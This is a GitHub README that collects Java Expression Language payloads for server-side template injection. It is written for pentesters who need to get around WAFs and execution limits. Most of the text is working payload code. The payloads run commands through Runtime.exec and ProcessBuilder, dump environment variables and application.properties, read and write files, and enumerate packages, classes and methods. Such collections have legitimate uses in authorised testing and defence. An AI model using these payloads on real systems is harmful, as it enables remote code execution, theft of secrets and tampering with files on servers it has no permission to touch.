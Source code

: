 # Java-EL-SSTI-Advanced
Advanced Expression Language payloads for Java based SSTI's

## Whats it about:
For some cases, regular SSTI EL payloads are not suitable, because of something like WAF, prohibition of file execution and etc, so u may not able to shot regular payloads such as:
```java
T(java.lang.Runtime).getRuntime().exec('calc')
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()
```
(for more see on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#expression-language-el) and [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#java))

You probably need to start think in another way and try gather and do as much as possible... 
So, this repository was born from payloads developed during a regular web application pentest and several others written out of boredom, feel free to push more!

## Environment and properties
```Java
T(java.lang.System).getenv().toString()
T(java.lang.System).getProperties().toString()
"".getClass().forName("org.springframework.core.io.support.PropertiesLoaderUtils").getMethod("loadAllProperties","".getClass()).invoke("","application.properties").toString()
```

## Reading command output
```java
T(java.lang.Runtime).getRuntime().exec('whoami').getInputStream().readAllBytes()
```

## Listing files
```java
"".getClass().forName("java.io.File").getConstructor("".getClass()).newInstance("C:/Windows").listFiles()
```

## Read Files (Strings)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllLines","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))
```

## Read Files (Bytes)
```java
// this one may not work beacuse of difference of java.nio.file.Paths.Get arguments from java to java
"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke("","".getClass().forName("java.nio.file.Paths").getMethods()[0].invoke("","",new String[]{"C:/Windows/System32/drivers/etc/hosts"}))

"".getClass().forName("java.nio.file.Files").getMethod("readAllBytes","".getClass().forName("java.nio.file.Path")).invoke(null,"".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/System32/drivers/etc/hosts")))	
```

## Write Files (Strings)
```java
// not at uri "file:/" prefix
// change "hello" to your file content
{"".getClass().forName("java.nio.file.Files").getMethod("write","".getClass().forName("java.nio.file.Path"),"".getClass().forName("[B"),"".getClass().forName("[Ljava.nio.file.OpenOption;")).invoke("","".getClass().forName("java.nio.file.Paths").getMethod("get","".getClass().forName("java.net.URI")).invoke(null,"".getClass().forName("java.net.URI").getConstructor("".getClass()).newInstance("file:/C:/Windows/Temp/qwe.txt")), "hello".getBytes(), new java.nio.file.OpenOption[] {"".getClass().forName("java.nio.file.StandardOpenOption").getField("CREATE").get(null)})
```

## List packages
```java
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("","".getClass().forName("java.lang.Package").getMethod("getPackages").invoke("")).toString()
```

## List classes/files of package
```java
// replace org/myapplication to your /org/custom/package
"".getClass().forName("java.io.File").getConstructor("".getClass().forName("java.lang.String")).newInstance("".getClass().forName("java.lang.Thread").currentThread().getContextClassLoader().getResource("org/myapplication").getFile()).listFiles()
```

## List properties of custom class
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString", "".getClass().forName("[Ljava.lang.Object;")).invoke(null, new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredFields()}).toString()
```

## List all class methods
```java
// replace org.myapplication.User to your class
"".getClass().forName("java.util.Arrays").getMethod("toString","".getClass().forName("[Ljava.lang.Object;") ).invoke("",new java.lang.Object[]{"".getClass().forName("org.myapplication.User").getDeclaredMethods()})
```
